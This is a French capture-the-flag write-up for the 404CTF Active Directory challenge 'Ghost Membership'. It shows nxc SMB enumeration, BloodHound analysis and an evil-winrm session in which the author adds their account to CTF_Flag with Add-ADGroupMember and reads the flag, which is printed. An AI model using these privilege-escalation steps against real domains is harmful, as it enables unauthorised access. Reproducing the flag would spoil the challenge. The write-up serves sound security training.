


# Ghost Membership
``Facile``

``HF47``

> Dans les modules internes de la station où l’accès est finement calibré, chaque autorité est transmise avec prudence. Mais au fil des ajustements, un écart imperceptible s’est glissé dans les mécaniques de délégation. Invisibles à l’œil nu, certains chemins ne respectent plus les règles prévues. En traçant cette dérive, peut-être découvrirez-vous une brèche enfouie au cœur du protocole.

> Les comptes formation et Administrateur et le groupe CTF_Player ne font pas partie du périmètre du challenge. Il est strictement interdit d'essayer de les compromettre. Les comptes et/ou groupes spécifiques au challenge sont identifiés par CTF ou indiqués dans l'énoncé. En cas de doute, contactez un administrateur.

``Adresse IP : 51.89.230.87``

Pas d'utilisateurs particuliers, mais un partage "flagshare"

```
└─$ nxc smb 51.89.230.87 -u 'lys377967_404Player' -p '<password>' --shares
SMB         51.89.230.87    445    DC1              [*] Windows Server 2016 Standard 14393 x64 (name:DC1) (domain:ctfcorp.local) (signing:True) (SMBv1:True)
SMB         51.89.230.87    445    DC1              [+] ctfcorp.local\lys377967_404Player:<password> 
SMB         51.89.230.87    445    DC1              [*] Enumerated shares
SMB         51.89.230.87    445    DC1              Share           Permissions     Remark
SMB         51.89.230.87    445    DC1              -----           -----------     ------
SMB         51.89.230.87    445    DC1              ADMIN$                          Remote Admin
SMB         51.89.230.87    445    DC1              C$                              Default share
SMB         51.89.230.87    445    DC1              flagshare       READ            
SMB         51.89.230.87    445    DC1              IPC$                            Remote IPC
SMB         51.89.230.87    445    DC1              NETLOGON        READ            Logon server share 
SMB         51.89.230.87    445    DC1              SYSVOL          READ            Logon server share 
```

Il y a un fichier flag.txt dedans, mais je n'ai pas le droit de le récupérer.

En regardant les groupes, on remarque qu'il y a deux groupes qui se distinguent des autres.

```
└─$ nxc smb 51.89.230.87 -u 'lys377967_404Player' -p '<password>' --groups
SMB         51.89.230.87    445    DC1              [*] Windows Server 2016 Standard 14393 x64 (name:DC1) (domain:ctfcorp.local) (signing:True) (SMBv1:True)
SMB         51.89.230.87    445    DC1              [+] ctfcorp.local\lys377967_404Player:<password> 
SMB         51.89.230.87    445    DC1              [+] Enumerated domain group(s)
SMB         51.89.230.87    445    DC1              CTF_Flag                                 membercount: 27
SMB         51.89.230.87    445    DC1              CTF_Player                               membercount: 51

```

(51 : le nombre de personnes qui ont créé un compte au moment où j'ai écrit le wu)

Il y a l'air d'y avoir moins de membres dans CTF_Flag. Peut-être que je ne fais pas partie de ce groupe, mais je pourrai récupérer flag.txt si j'y arrive.


A posteriori, j'ai utilisé [Bloodhound](https://beta.hackndo.com/bloodhound/) pour voir à quels groupes j'appartiens et si une exploitation est possible.

Je fais partie de CTF_Player et Domain_Users.



En regardant dans ``OUTBOUND OBJECT CONTROL/Group Delegated Object Control``, il se trouve que les membres de CTF_Player peuvent devenir membre de CTF_Flag ! 



AddMember permet de me rajouter à un groupe.
https://www.thehacker.recipes/ad/movement/dacl/addmember


Je peux me connecter avec Evil-WinRM 

```
evil-winrm -i 51.89.230.87 -u 'lys377967_404Player' -p '<password>'
```
En utilisant Powershell, je me rajoute au groupe CTF_Flag avec la commande ``Add-ADGroupMember`` qui permet de rajouter un ou plusieurs membres à un groupe AD.
```
Add-ADGroupMember -Identity "CTF_Flag" -Members "lys377967_404Player"
```

Pour vérifier que je suis bien membre : 

```
Get-ADGroupMember -Identity 'CTF_Flag'
```

Je peux maintenant consulter le flag.txt dans flagshare. 

404CTF{Wr1t3_M3mb3r5_1s_D4ng3r0us_R1ght!}

 (Bloodhound n'était pas essentiel, mais c'est un bon réflexe de l'utiliser puisqu'il donne les étapes d'une exploitation.)